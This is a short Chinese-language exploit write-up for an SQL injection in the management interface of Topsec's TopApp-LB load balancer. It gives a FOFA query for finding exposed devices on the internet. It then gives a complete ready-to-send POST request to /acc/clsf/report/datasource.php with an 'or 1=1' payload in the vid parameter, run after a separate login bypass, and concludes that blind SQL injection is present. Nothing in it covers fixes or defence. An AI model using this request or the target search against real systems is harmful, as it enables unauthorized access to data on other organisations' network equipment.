

# 天融信 TopApp-LB SQL注入漏洞

## 漏洞描述

天融信负载均衡 TopAPP-LB产品旧版本在管理面存在SQL注入漏洞，具体为在可以访问管理服务情况 下，攻击者通过构造恶意请求，利用系统检查输入条件不严格的缺陷，进一步可获取部分系统本地信息

## 漏洞影响

```
天融信负载均衡TopApp-LB
```

## FOFA

```
app="天融信-TopApp-LB-负载均衡系统"
```

## 漏洞复现

利用 **天融信负载均衡TopApp-LB 任意登陆** 使用后台

提交以下数据包


```plain
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: 
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, */*
X-Prototype-Version: 1.6.0.3
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ijqtopbcbmu8d70o5t3kmvgt57
Content-Type: application/x-www-form-urlencoded
Content-Length: 201

t=l&e=0&s=t&l=1&vid=2147483647 or 1=1&gid=0&lmt=10&o=r_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。
```





存在SQL盲注